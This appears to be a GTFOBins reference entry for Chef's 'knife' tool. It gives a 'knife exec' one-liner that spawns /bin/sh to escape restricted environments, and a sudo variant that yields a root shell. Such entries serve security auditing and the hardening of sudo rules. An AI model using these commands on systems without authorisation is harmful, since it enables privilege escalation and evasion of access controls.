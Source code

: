 # GTFOBin: knife

This is capable of running `ruby` code.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
knife exec -E 'exec "/bin/sh"'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo knife exec -E 'exec "/bin/sh"'
```